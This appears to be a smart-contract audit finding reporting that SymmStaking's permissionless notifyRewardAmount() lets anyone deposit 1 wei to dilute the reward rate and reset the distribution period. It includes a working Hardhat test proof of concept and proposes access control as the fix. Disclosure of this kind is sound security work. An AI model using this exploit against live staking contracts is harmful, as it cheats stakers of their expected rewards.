 Careful Concrete Pike

Medium

# Anyone can dilute reward distribution rate and postpone the end of reward distribution

### Summary

Symm Staking allows users staking their SYMM to earn rewards over time. The new reward is distributed by calling [`SymmStaking#notifyRewardAmount()`](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L275-L292).
However, `notifyRewardAmount()` is a permissionless function, anyone can call it to update distribution rate by depositing only 1 wei token. Upon this circumstance, the distribution rate will be diluted and the distribution period will be reset.

### Root Cause

There is no access control on `notifyRewardAmount()` call.

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

_No response_

### Impact
the reward distribution rate can be diluted by anyone
### PoC
Copy below codes into [symmStaking.behavior.ts](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/tests/symmStaking.behavior.ts) and run `npx hardhat test`:
```solidity
		it.only("should dilute reward distribution rate", async function () {
			await usdtToken.connect(admin).transfer(user1, 1)

			const rewardAmount = e(604800)
			await usdtToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount)
			await symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), true)
			await symmStaking.connect(admin).notifyRewardAmount([await usdtToken.getAddress()], [rewardAmount])

			const state = await symmStaking.rewardState(await usdtToken.getAddress())
			const midTime = Number(state.periodFinish) - 302400
			await network.provider.send("evm_setNextBlockTimestamp", [midTime]) // half of vesting lock
			await network.provider.send("evm_mine")
			//@audit-info user1 deposit 1 wei to dilute the reward distribution rate
			await usdtToken.connect(user1).approve(await symmStaking.getAddress(), 1)
			await symmStaking.connect(user1).notifyRewardAmount([await usdtToken.getAddress()], [1])
			const stateDiluted = await symmStaking.rewardState(await usdtToken.getAddress())
			expect(state.rate).to.equal("1000000000000000000")
			expect(stateDiluted.rate).to.lessThanOrEqual("500000000000000000")
		})
```
As we can see, the reward distribution rate is diluted
### Mitigation
Add access control to function `notifyRewardAmount()`
